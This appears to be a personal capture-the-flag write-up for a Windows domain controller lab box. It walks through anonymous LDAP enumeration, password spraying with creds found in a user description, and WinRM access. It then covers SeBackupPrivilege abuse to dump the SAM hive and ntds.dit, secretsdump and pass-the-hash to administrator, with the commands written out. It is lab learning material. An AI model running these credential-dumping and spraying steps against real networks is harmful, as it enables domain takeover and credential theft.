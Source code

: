 ## User
* windows dc w expected stuff open
* `nmap -n -sV --script "ldap* and not brute" -Pn IP` to dump anonymous ldap info
	* `Context: DC=baby,DC=vl` anonymous has access to browse the directory
* tried to used apache directory browser to view the full directory - arch is buns
* `ldapsearch -x -H ldap://IP:389 -b "DC=baby,DC=vl"`
	* User had creds in a description `Teresa.Bell/BabyStart123!`, creds didn't work
* decided to password spray users
	* `cat ldap-dump.txt | grep userPrincipalName | awk '{print $2}' | cut -d "@" -f 1` to get a list of users
	* `crackmapexec smb 10.10.105.51 -u ./users.txt -p BabyStart123! --shares` to spray the credential at all the users
	* password needs changing
		* `smbpasswd -r IP -U USER`
* used winrm to connect as user `evil-winrm -i IP -u Caroline.Robinson -p BallsInYourFace69!`
	* flag was on desktop user.txt
![[Pasted image 20231116152304.png]]
![[Pasted image 20231114210408.png]]

## Root
* hint says to look at user permissions `whoami /priv`
![[Pasted image 20231116153206.png]]
* SeBackupPrivilege
	* allows users to read all files on a system
	* https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
* Move to any directory where we have write permissions
	* `reg save hklm\sam c:\Temp\sam` && `reg save hklm\system c:\temp\system` saves the sam and system files
	* downloaded them w smbclient
* Used mimikatz to dump hashes from the sam hive
	* `pypykatz registry --sam sam system`
	* this is only local creds; useless
![[Pasted image 20231116160754.png]]
### Exploiting SeBackup/SeRestore
* use diskshadow and robocopy to dump ntds.dit
* exfiltrate to host
* `impacket-secretsdump -ntds ntds.dit -system system.hive local`
* pass the hash via evil-winrm
	* `evil-winrm -i IP -u 'administrator' -H '<REDACTED>'`
![[Pasted image 20231122184832.png]]